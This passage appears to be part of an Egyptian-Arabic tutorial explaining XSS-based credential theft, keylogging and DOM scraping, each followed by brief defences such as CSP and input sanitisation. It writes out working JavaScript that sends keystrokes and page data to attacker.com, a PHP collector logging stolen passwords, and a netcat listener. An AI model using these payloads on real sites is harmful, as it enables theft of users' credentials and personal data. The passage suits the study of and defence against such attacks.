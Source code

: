          file_put_contents("stolen_data.txt", "User: " . $_GET['user'] . ", Pass: " . $_GET['pass'] . "\n", FILE_APPEND);
         ?>
         ```
         - الملف ده بيخزن البيانات في ملف نصي.
   - **إزاي بيحط السكربت؟**
     - **Stored XSS**: المهاجم بيكتب السكربت في خانة زي التعليقات.
     - **Reflected XSS**: بيعمل لينك زي:
       ```
       http://vulnerable.com/search?q=<script>document.getElementById("login-form").addEventListener("submit", function(){...})</script>
       ```
       وبيخلي الضحية يضغط عليه.
   - **الحماية**:
     - نظف مدخلات المستخدم عشان تمنع إضافة سكربتات.
     - استخدم Content Security Policy (CSP) عشان تمنع الطلبات لسيرفرات غريبة.

#### 2. **تسجيل ضربات المفاتيح (Keylogging)**
   - **إزاي بتحصل؟**
     - السكربت بيراقب كل ضربات المفاتيح (keystrokes) اللي المستخدم بيكتبها في الصفحة، زي الباسورد أو بيانات شخصية.
     - البيانات دي بتتبعت للمهاجم في الوقت الفعلي أو على دفعات.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       document.addEventListener("keydown", function(e) {
           var key = e.key;
           new Image().src = "http://attacker.com/steal?key=" + encodeURIComponent(key);
       });
       ```
       - `addEventListener("keydown")`: بيراقب كل ضغطة مفتاح.
       - `e.key`: بيجيب الحرف أو المفتاح اللي اتضغط.
       - `new Image().src`: بيبعت المفتاح لسيرفر المهاجم.
     - **إعداد سيرفر المهاجم**:
       - زي الأول، netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_keys.txt", $_GET['key'] . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored XSS في تعليق أو Reflected XSS في لينك.
   - **الحماية**:
     - استخدم CSP عشان تمنع السكربتات الخبيثة.
     - شفر البيانات الحساسة في الفورمات قبل ما تتبعت للسيرفر.

#### 3. **سرقة بيانات من الصفحة (DOM Scraping)**
   - **إزاي بتحصل؟**
     - السكربت بيطلع على محتوى الصفحة (زي بيانات الملف الشخصي أو الإيميل) وبياخدها من الـ DOM (Document Object Model).
     - البيانات دي بتتبعت لسيرفر المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var profileData = document.getElementById("profile").innerText;
       new Image().src = "http://attacker.com/steal?data=" + encodeURIComponent(profileData);
       ```
       - `getElementById`: بيجيب عنصر معين من الصفحة (زي `<div id="profile">`).
       - `innerText`: بياخد النص اللي جوا العنصر.
       - `encodeURIComponent`: بيشفر البيانات عشان تتبعت صح في الـ URL.